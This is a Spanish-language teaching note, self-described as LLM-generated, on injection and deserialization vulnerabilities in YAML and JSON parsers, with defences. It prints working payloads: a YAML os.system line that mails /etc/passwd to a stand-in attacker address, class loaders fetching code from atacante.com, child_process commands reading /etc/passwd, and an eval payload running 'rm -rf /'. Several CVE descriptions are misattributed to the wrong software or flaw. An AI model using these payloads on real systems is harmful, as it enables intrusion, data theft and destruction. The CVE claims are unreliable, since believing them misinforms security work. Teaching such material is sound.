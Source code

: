 * ¿Qué es este archivo?

Si bien lo tengo desarrollado en el texto que hemos ido siguiendo, creo que
el tema de inyecciones “gana” mucho de estar vinculado a ejemplos. El texto
a continuación es generado por LLM, y si bien verifiqué rápidamente su
validez... bueno, me arriesgo a meterme el pie yo solito 😉 Estamos todos
advertidos...

* Inyecciones

** Inyección de Objetos (Object Injection)

*Descripción*: Esta vulnerabilidad surge cuando una aplicación deserializa
(reconstruye a partir de una cadena de texto) datos no confiables sin la
validación adecuada. Un atacante puede manipular el flujo de ejecución de
la aplicación proporcionando un objeto serializado malicioso. Al
deserializarlo, la aplicación ejecuta automáticamente métodos específicos
de ese objeto (como __wakeup() en PHP o readObject() en Java), lo que puede
llevar a la ejecución de código arbitrario, inclusión de archivos o
escalada de privilegios. Es un ataque que convierte datos en código
ejecutable.

- [[https://nvd.nist.gov/vuln/detail/CVE-2022-22963][CVE-2022-22963]] (CVSS 9.8) :: En Spring Cloud Function, la inyección de
  objetos a través del encabezado spring.cloud.function.routing-expression
  permitía la Ejecución Remota de Código (RCE).

- [[https://nvd.nist.gov/vuln/detail/CVE-2017-9841][CVE-2017-9841]] (CVSS 9.8) :: En PHPUnit (utilizado en entornos de
  producción por error), una vulnerabilidad de deserialización insegura
  permitía la ejecución de código PHP arbitrario.

- [[https://nvd.nist.gov/vuln/detail/CVE-2015-7450][CVE-2015-7450]] (CVSS 7.5) :: Una deserialización insegura en IBM WebSphere
  Application Server permitía a un atacante ejecutar código Java
  arbitrario.

(algunos ejemplos específicos de inyección en serializaciones vía JSON o
YAML más adelante)

** Inyección de Código (Code Injection)

*Descripción*: Ocurre cuando un atacante logra inyectar y ejecutar código
en un lenguaje interpretado del lado del servidor (como PHP, Python,
Perl). A diferencia de la deserialización, aquí el código se inyecta
directamente en una sentencia o función que lo evalúa dinámicamente (ej:
eval(), system(), exec()). La aplicación trata la entrada del usuario como
parte del código a ejecutar. El impacto suele ser la ejecución directa de
comandos del sistema operativo o código de aplicación con los privilegios
del servidor.

- [[https://nvd.nist.gov/vuln/detail/CVE-2023-29489][CVE-2023-29489]] (CVSS 9.8) :: En cPanel, una inyección de código a través
  del parámetro api_call permitía a un usuario autenticado ejecutar
  comandos arbitrarios en el sistema como root.

- [[https://nvd.nist.gov/vuln/detail/CVE-2012-1823][CVE-2012-1823]] (CVSS 10.0) :: Una vulnerabilidad crítica en PHP-CGI donde
  parámetros de consulta eran interpretados como argumentos de línea de
  comandos, lo que permitía la inyección y ejecución de código remoto.

- [[https://nvd.nist.gov/vuln/detail/CVE-2023-24078][CVE-2023-24078]] (CVSS 8.8) :: En symfony/serializer de Symfony, un
  atacante podía lograr la ejecución de código PHP a través de la inyección
  de una carga útil maliciosa.

** Inyección de Solicitudes (SSRF - Server-Side Request Forgery)

*Descripción*: Un atacante obliga a un servidor a realizar solicitudes HTTP
a un destino de su elección. Esto explota la funcionalidad de la aplicación
para recuperar URLs. Un SSRF exitoso puede usarse para:

- Escaneo de redes internas: Acceder a sistemas internos que no son
  accesibles desde Internet.

- Ataques a servicios internos: Interactuar con servicios sin autenticación
  (como paneles de administración de bases de datos o APIs internas).

- Filtración de datos: Hacer que el servidor envíe datos sensibles a un
  servidor controlado por el atacante.

- [[https://nvd.nist.gov/vuln/detail/CVE-2021-29472][CVE-2021-29472]] (CVSS 7.7) :: En el servidor de medios url-get.php de
  WordPress, un atacante podía realizar solicitudes a servicios internos y
  leer respuestas, lo que podía llevar a la exposición de credenciales.

- [[https://nvd.nist.gov/vuln/detail/CVE-2019-8442][CVE-2019-8442]] (CVSS 6.4) :: En Jira, un endpoint de la API permitía a un
  atacante realizar una solicitud SSRF que revelaba información sobre
  servicios internos.

- [[https://nvd.nist.gov/vuln/detail/CVE-2023-38500][CVE-2023-38500]] (CVSS 7.5) :: En la aplicación MinIO, una vulnerabilidad
  SSRF de alta severidad permitía a los atacantes ejecutar comandos
  arbitrarios en el entorno de gestión.

** Inyección de Comandos del Sistema Operativo (OS Command Injection)

*Descripción*: Es uno de los tipos de inyección los más críticos. Ocurre
cuando una aplicación pasa datos no confiables (provenientes del usuario)
directamente a un shell del sistema operativo sin la validación o escapado
adecuado. Un atacante puede engañar a la aplicación para que ejecute
comandos del sistema operativo arbitrarios con los mismos privilegios que
la propia aplicación. El impacto suele ser la total compromisión del
servidor.

CVEs de Ejemplo:

- [[https://nvd.nist.gov/vuln/detail/CVE-2022-46169][CVE-2022-46169]] (CVSS 9.8) :: Inyección de comandos en la función
  remote_agent.php de Cacti que permitía ejecución remota de código sin
  autenticación: No validaba adecuadamente el encabezado HTTP_HOST antes de
  pasarlo a funciones del sistema.

- [[https://nvd.nist.gov/vuln/detail/CVE-2023-27326][CVE-2023-27326]] (CVSS 9.8) :: Inyección de comandos en PaperCut NG que
  permitía a atacantes no autenticados ejecutar código arbitrario por
  entradas de usuario pasadas directamente a procesos del sistema
  operativo.

- [[https://nvd.nist.gov/vuln/detail/CVE-2021-4034][CVE-2021-4034]] (CVSS 7.8) :: Mientras es principalmente un desbordamiento,
  el resultado final es la ejecución de comandos del sistema como root en
  polkit, mediante la explotación de variables de entorno para ejecutar
  código arbitrario.

* Mecanismo de la Inyección de Objetos en YAML

YAML es un formato de serialización muy potente que no solo describe datos,
sino que puede instanciar objetos arbitrarios y invocar funciones durante
el proceso de deserialización. Esto se hace a través de etiquetas
específicas como =!!python/object= o =!!python/object/apply=.

Cuando un parser de YAML (como PyYAML en Python o snakeyaml en Java)
procesa un documento con estas etiquetas sin las debidas restricciones,
crea los objetos y ejecuta las funciones especificadas, lo que puede llevar
directamente a la Ejecución Remota de Código (RCE).  [[https://nvd.nist.gov/vuln/detail/CVE-2017-17522][CVE-2017-17522]] - RCE
en PyYAML

Descripción: Una vulnerabilidad de Ejecución Remota de Código en el parser
PyYAML a través de la etiqueta python/object/new. Un atacante capaz de
proporcionar un archivo YAML malicioso a una aplicación que use yaml.load()
(en lugar de yaml.safe_load()) puede lograr la ejecución de comandos
arbitrarios en el sistema.

Payload de Ejemplo:

#+begin_src yaml
!!python/object/new:os.system
args: ['cat /etc/passwd | mail atacante@malicioso.com']
#+end_src

- =!!python/object/new:os.system= instruye al parser a crear una nueva
  instancia de la clase os.system.

- =args= Proporciona los argumentos para el constructor. En este caso, el
  comando a ejecutar.

*Escenario de Ataque*

- Una aplicación web permite a los usuarios subir un archivo de
  configuración en YAML.

- La aplicación procesa el archivo con =yaml.load(file_content)=.

- Un atacante sube un archivo YAML con el payload mostrado arriba.

- Al deserializarlo, el sistema ejecuta el comando =cat /etc/passwd=.

[[https://nvd.nist.gov/vuln/detail/CVE-2022-1471][CVE-2022-1471]] - RCE en SnakeYAML (Java)

Descripción: SnakeYAML, el parser de YAML más popular para Java, es
vulnerable a la Deserialización Insegura cuando se instancia con la
configuración por defecto (usando new Yaml()). Un atacante puede lograr RCE
aprovechando constructores de clases disponibles en el classpath.

Payload de Ejemplo (Generación de un ScriptEngine de Java):

#+begin_src yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://atacante.com/malicioso.jar"]
  ]]
]
#+end_src

Este payload es más complejo y suele ser el primer paso. A menudo, los
atacantes utilizan una cadena de gadgets conocidos para lograr RCE de forma
más directa. Un payload más común y explícito para RCE sería uno que
aproveche una clase como
=org.springframework.context.support.ClassPathXmlApplicationContext= para
cargar un contexto XML malicioso desde una URL controlada por el atacante,
lo que luego lleva a la ejecución de código.

Payload Alternativo y Común (si =Spring= está en el classpath):

#+begin_src yaml
!!org.springframework.context.support.ClassPathXmlApplicationContext
arg: http://atacante.com/context.xml
#+end_src

El archivo =context.xml= contendría entonces beans maliciosos que ejecutan
código.

*Escenario de Ataque*

- Una aplicación Java (por ejemplo, un servicio Spring Boot que acepta
  configuraciones en YAML) deserializa datos de usuario usando =new
  Yaml().load()=.

- El atacante envía un payload YAML malicioso como el de arriba.

- SnakeYAML instancia la clase =ClassPathXmlApplicationContext= y carga el
  XML remoto.

- El XML malicioso define beans que ejecutan código Java arbitrario, dando
  RCE al atacante.

Ejemplo en el Mundo Real: [[https://nvd.nist.gov/vuln/detail/CVE-2022-1471][CVE-2022-1471]] en Acción

Software Afectado: GitLab

- CVE: [[https://nvd.nist.gov/vuln/detail/CVE-2023-2825][CVE-2023-2825]] (GitLab) se basó en la explotación de SnakeYAML
  ([[https://nvd.nist.gov/vuln/detail/CVE-2022-1471][CVE-2022-1471]]).

- Vector: Un usuario autenticado podía importar un proyecto a través de un
  archivo que contenía un payload YAML malicioso.

- Impacto: Ejecución Remota de Código en el servidor de GitLab.

*Defensa Contra la Inyección de Objetos YAML*

La mitigación es directa pero debe ser aplicada estrictamente:

- Nunca usar =load()= sin restricciones. En PyYAML, usar
  =yaml.safe_load()=. En SnakeYAML (Java), instanciar el parser con un
  SafeConstructor restringido:
  #+begin_src java
  Yaml yaml = new Yaml(new SafeConstructor()); // ¡Seguro por defecto!
  #+end_Src

- Validar Estrictamente la Entrada: Si se debe usar una funcionalidad
  potente, validar exhaustivamente el esquema y contenido del YAML antes de
  deserializarlo.

- Actualizar Bibliotecas: Mantener los parsers de YAML actualizados a
  versiones que, por defecto, restrinjan la deserialización de tipos
  arbitrarios.

* Mecanismo de la inyección de Objetos en JSON

A diferencia de YAML, JSON por sí mismo es un formato de sólo datos y no
permite la ejecución de código de manera inherente. El peligro surge
cuando:

- Las aplicaciones usan parsers inseguros que extienden JSON con funcionalidades de instanciación de objetos.

- Se utiliza eval() o funciones similares para procesar JSON.

- La deserialización convierte propiedades JSON en objetos complejos sin validación.

** Caso 1: JSONP y Callback Injection

[[https://nvd.nist.gov/vuln/detail/CVE-2021-44906][CVE-2021-44906]] - dojo (JSONP Hijacking)

- Mecanismo: JSONP (JSON with Padding) permite bypass de CORS usando callbacks. Si un endpoint JSONP acepta callback arbitrarios, se puede inyectar código JavaScript.

- Payload:
  #+begin_src javascript
  http://api.vulnerable.com/userdata?callback=malicious_function
  #+end_src

- Impacto: Ejecución de código en el contexto del dominio, robo de datos sensibles.

** Caso 2: Prototype Pollution vía JSON

[[https://nvd.nist.gov/vuln/detail/CVE-2022-25647][CVE-2022-25647]] - node-forge

- Mecanismo: Al mergear objetos JSON profundamente, se puede modificar el prototipo de Object en JavaScript.

- Payload:
  #+begin_src json
  {
    "__proto__": {
      "isAdmin": true,
      "polluted": "yes"
    }
  }
  #+end_src

- Impacto: Modificación de comportamiento de la aplicación, escalada de privilegios, RCE en combinación con otros gadgets.

** Caso 3: Deserialización Insegura en Parsers Específicos

[[https://nvd.nist.gov/vuln/detail/CVE-2022-25845][CVE-2022-25845]] - fast-json-parse

- Mecanismo: Este parser permitía la ejecución de código a través de constructores especiales.

- Payload:
  #+begin_src json
  {
    "key": {"type": "Function", "value": "return process.exit(1)"}
  }
  #+end_src

- Impacto: Denegación de servicio o ejecución de código arbitrario.

** Caso 4: eval() de JSON sin Validar

Ejemplo en Aplicaciones PHP:

#+begin_src php
// ¡VULNERABLE!
$data = json_decode($_POST['data']);
// Peor aún:
$data = eval("return " . $_POST['data'] . ";");
#+end_src

Payload:
#+begin_src javascript
{"user": "admin", "password": "test"; system('rm -rf /'); //}
#+end_src

** CVEs Destacados de Inyección en JSON
[[https://nvd.nist.gov/vuln/detail/CVE-2022-23529][CVE-2022-23529]] - node-serialize

- Severidad: Crítica (CVSS 9.8)

- Mecanismo: Usaba eval() para reconstruir funciones serializadas en JSON.

- Payload:
  #+begin_src json
  {
    "rce": {"_$$ND_FUNC$$_": "function(){ require('child_process').exec('cat /etc/passwd') }"}
  }
  #+end_src
- Impacto: Ejecución remota de código inmediata.

[[https://nvd.nist.gov/vuln/detail/CVE-2021-25949][CVE-2021-25949]] - underscore

- Mecanismo: Template injection a través de manipulación de objetos JSON.

- Payload:
  #+begin_src json
  {
    "constructor": {
      "prototype": {
        "sourceURL": "\u000areturn process.mainModule.require('child_process').execSync('cat /etc/passwd')//"
      }
    }
  }
  #+end_src

[[https://nvd.nist.gov/vuln/detail/CVE-2023-26117][CVE-2023-26117]] - mongodb library

- Mecanismo: Inyección de operadores de consulta a través de JSON.

- Payload:
#+begin_src json
{
  "username": {"$ne": "invalid"},
  "password": {"$ne": "invalid"}
}
#+end_src

- Impacto: Bypass de autenticación NoSQL injection.

Defensas Contra Inyección en JSON

- Usar JSON.parse() nativo: Nunca usar eval() o parsers personalizados que ejecuten código.

- Schema Validation: Validar estructura y tipos con JSON Schema antes de procesar.

- Object Creation Safely: No instanciar objetos basados en propiedades JSON sin verificación.

- Sanitización de Prototipos:
  #+begin_src javascript
  // Antes de procesar JSON
  if (jsonData.hasOwnProperty('__proto__') || jsonData.hasOwnProperty('constructor')) {
    throw new Error('Prototype pollution attempt');
  }
  #+end_src

- Content-Type estricto: application/json sin interpretación como script.


